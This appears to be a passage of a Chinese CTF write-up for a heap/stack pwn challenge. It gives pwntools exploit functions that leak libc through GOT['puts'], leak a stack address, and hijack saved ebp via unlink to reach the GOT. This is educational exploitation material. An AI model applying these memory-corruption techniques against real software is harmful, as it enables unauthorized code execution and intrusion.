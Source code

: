 ```python
```

```python
def get_iphone8(io,sols,cnts):
    for i in range(len(list(cnts))):
        for j in range(sol[cnts[i]].as_long()):
            add(io, i+1)
    choice(io,5)
    io.recvuntil(b"Let me check your cart. ok? (y/n) > ")
    io.sendline(b"y")
```

得到iphone8之后，在cart()中可以通过栈重写来改写iphone8中的name指针，指向`GOT['puts']`即可泄露libc地址。

```python
def leak_libc(io,_bin):
    content = b"y\x00" + p32(_bin.got["puts"]) # change name to GOT['puts']
    content+= p32(114514) + p32(0) 
    cart(io,content)
    s = io.recvuntil(b"114514").split(b"\n")[-1].split(b': ')[1]
    return u32(s[:4])
```

### 劫持ebp

劫持ebp可以通过改写栈上的`saved ebp`，从而在函数结束时改变ebp的值。

改写栈上的地址首先需要泄露栈地址，我们知道购物车链表的表头位于bss段，如果我们能够使得表上只有iphone8一个物品（即如下链表），就会有`cart_head -> next == address(iphone8)`，如果我们这时候再设置`iphone8->name = cart_head->next`，就可以通过打印iphone8的名字来泄露iphone8的地址，为此我们需要delete掉链表上的其它位于堆的物品，再通过栈重写iphone8的name字段。

```python
cart_head <--> address(iphone8)
```

```python
def leak_stack(io):
    for i in range(26):
        delete(io, b"1\x00")
    first_cart_ptr = 0x804B070
    content = b"1\x00"
    content+= p32(first_cart_ptr)   # name
    content+= p32(114514)           # price
    content+= p32(0)                # next
    content+= p32(0)                # prev
    s = delete(io,content)
    assert s.startswith(b"Remove 1:")
    return u32(s.strip(b"Remove 1:")[:4])
```

随后我们通过unlink改写delete函数的`saved ebp`的值到got表。这里需要注意一个问题，由于更改了`saved ebp`，回到main函数之后ebp就会变成got表上的地址，然而main函数会调用别的函数，涉及到栈操作，可能会改变got表项的值，因此需要调整ebp的值到某个位置，既不会影响必要的got表项目，又能够保证之后能够写到`GOT['puts']`。

我们已知`GOT['puts'] = 0x804b040`，因为我们在main函数中栈重写时，开始地址为`ebp-0x22 <= 0x804b040`，因此需要有`ebp <= 0x804b040+0x22`，可以从这个地址每2bytes往下减，找到一个不会crash的地址，我最后找到的地址是`0x804b032+0x22`
